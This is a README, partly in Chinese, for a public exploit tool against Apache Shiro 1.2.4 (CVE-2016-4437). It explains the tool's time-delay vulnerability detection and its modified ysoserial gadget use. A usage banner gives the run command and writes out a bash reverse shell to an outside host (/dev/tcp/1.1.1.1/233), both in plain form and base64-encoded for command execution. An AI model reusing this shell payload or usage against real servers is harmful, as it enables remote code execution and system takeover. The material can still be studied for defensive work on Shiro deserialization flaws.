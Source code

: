 # Readme
Apache Shiro 


<details>
<summary>Shiro 1.2.4 [点击展开] </summary>
  
使用延时判断key和gadget，即时目标不出网也可以检测是否存在漏洞  
修改了ysoserial支持延时命令，不要使用原版的ysoserial  
```
+-------------------------------------------------------------------------------------------------------+
+ DES: By zhzyker as https://github.com/zhzyker/exphub                                                  +
+      Vuln Name: CVE-2016-4437 | Shiro 550  |  Shiro 1.2.4                                             +
+                                                                                                       +
+      Nc shell need encode command: http://www.jackson-t.ca/runtime-exec-payloads.html                 +
+      Original: bash -i >&/dev/tcp/1.1.1.1/233 0>&1                                                    +
+      Encoding: bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMjMzIDA+JjE=}|{base64,-d}|{bash,-i}  +
+-------------------------------------------------------------------------------------------------------+
+ USE: python3 <filename> <url>                                                                         +
+ EXP: python3 shiro-1.2.4_rce.py http://1.1.1.1:8080                                                   +
+ VER: Apahce Shiro <= 1.2.4                                                                            +
+-------------------------------------------------------------------------------------------------------+
```

Linux系统使用base64编码发送命令，Windows发送默认字符  
利用示例：  
![images](https://github.com/zhzyker/exphub/tree/master/shiro/image/1.gif)
![images](https://github.com/zhzyker/exphub/tree/master/shiro/image/2.gif)

</details>



